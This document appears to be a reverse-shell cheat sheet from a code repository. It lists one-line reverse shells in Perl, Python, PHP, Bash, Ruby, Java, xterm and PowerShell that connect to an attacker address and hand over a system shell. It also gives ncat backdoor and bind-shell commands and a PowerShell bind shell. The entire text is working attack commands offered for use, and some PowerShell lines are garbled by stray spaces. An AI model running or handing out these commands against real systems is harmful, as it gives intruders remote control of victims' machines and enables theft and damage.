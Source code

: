 - [Perl](#Perl)
- [Python](#Python)
- [PHP](#PHP)
- [Bash](#Bash)
- [Ruby](#Ruby)
- [Java](#Java)
- [xterm](#xterm)
- [nc](#nc)
- [powershell](#powershell)

### Perl
```
perl -e 'use Socket;$i="10.11.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### Python
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### PHP
```
php -r '$sock=fsockopen("10.11.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### Bash
```
bash -i >& /dev/tcp/10.11.0.1/8080 0>&1

bash -c 'bash -i >& /dev/tcp/10.11.0.1/8080 0>&1'
```

### Ruby
```
ruby -rsocket -e'f=TCPSocket.open("<your _p>",<your_port>).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Java
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.11.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### xterm
```
xterm -display 10.11.0.1:1
```

### nc
- Listen to inbound connections
```
ncat -l 8080
```

- Connect to remote system
```
ncat [ip] [port]
```

- Listen to inbound connections UDP ports
```
ncat -l -u [port]
  check netstat -tunlp | grep [port]
```

- Connect to remote system UDP
```
ncat -v -u [ip] [port]
```

- nc as a proxy
```
 ncat -l port1 | ncat [ip] [port2]
  Now all the connections coming to our server on port [port1] will be automatically redirected to [ip] server on port [port2]
```

- create a backdoor
```
ncat -l [port] -e /bin/bash
ncat [ip] [port]
```

- netcat as bind shell
```
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

- netcat as reverse shell
```
mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

### powershell

- Reverse shell
```
$client = New-Object System.Net.Sockets.TCPClient('[your_ip]',[your_port]);
$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};
$client.Close()
```

```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

- Bind shell
```
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener( '0.0.0.0',443);$listener.start();$client
= $listener.AcceptTcpClient();$stream = $clie nt.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i =
$stream.Read($bytes, 0, $byt es.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString
($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'P
S ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$str
eam.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Sto p()"
```


